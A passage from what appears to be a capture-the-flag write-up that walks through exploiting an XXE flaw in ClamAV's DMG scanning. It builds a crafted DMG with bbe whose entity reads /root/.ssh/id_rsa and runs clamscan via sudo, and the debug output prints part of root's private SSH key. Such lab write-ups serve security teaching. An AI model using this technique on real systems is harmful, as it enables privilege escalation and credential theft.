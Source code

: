 

Next I'll turn that into a DMG:



    root@39e742dc1260:/exploit# dmg dmg test.img test.dmg
    Processing DDM...
    No DDM! Just doing one huge blkx then...
    run 0: sectors=512, left=724
    run 1: sectors=212, left=212
    Writing XML data...
    Generating UDIF metadata...
    Master checksum: ffac019f
    Writing out UDIF resource file...
    Cleaning up...
    Done



Finally, I'll use `bbe` (the [binary block
editor](https://linux.die.net/man/1/bbe)) to edit in the XXE, modifying
the command from GitHub to read root's ssh key instead of `/etc/passwd`:



    root@39e742dc1260:/exploit# bbe -e 's|<!DOCTYPE plist PUBLIC "-//Apple Computer//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">|<!DOCTYPE plist [<!ENTITY xxe SYSTEM "/root/.ssh/id_rsa"> ]>|' -e 's/blkx/&xxe\;/' test.dmg -o exploit.dmg



I'll exit the container and (because I was working out of the mapped
directory), `exploit.dmg` is there. I'll `scp` it to Snoopy:



    oxdf@hacky$ scp -i ~/keys/ed25519_gen exploit.dmg sbrown@snoopy.htb:/home/sbrown/scanfiles
    exploit.dmg                                                            100%  217KB 464.4KB/s   00:00



And scan it as root:



    sbrown@snoopy:~$ sudo clamscan --debug /home/sbrown/scanfiles/exploit.dmg
    LibClamAV debug: searching for unrar, user-searchpath: /usr/local/lib
    LibClamAV debug: unrar support loaded from /usr/local/lib/libclamunrar_iface.so.11.0.0
    LibClamAV debug: Initialized 1.0.0 engine
    LibClamAV debug: Initializing phishcheck module
    ...[snip]...
    LibClamAV debug: Descriptor[3]: Continuing after file scan resulted with: No viruses detected
    LibClamAV debug: in cli_scanscript()
    LibClamAV debug: matcher_run: performing regex matching on full map: 0+3329(3329) >= 3329
    LibClamAV debug: matcher_run: performing regex matching on full map: 0+3329(3329) >= 3329
    LibClamAV debug: hashtab: Freeing hashset, elements: 0, capacity: 0
    LibClamAV debug: hashtab: Freeing hashset, elements: 0, capacity: 0
    LibClamAV debug: Descriptor[3]: Continuing after file scan resulted with: No viruses detected
    LibClamAV debug: cli_magic_scan: returning 0  at line 4997
    LibClamAV debug: clean_cache_add: 0bf7a447855c6e598fe480a4a46d4988 (level 0)
    LibClamAV debug: cli_scandmg: wanted blkx, text value is -----BEGIN OPENSSH PRIVATE KEY-----
    b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
    NhAAAAAwEAAQAAAYEA1560zU3j7mFQUs5XDGIarth/iMUF6W2ogsW0KPFN8MffExz2G9D/
    4gpYjIcyauPHSrV4fjNGM46AizDTQIoK6MyN4K8PNzYMaVnB6IMG9AVthEu11nYzoqHmBf
    ...[snip]...
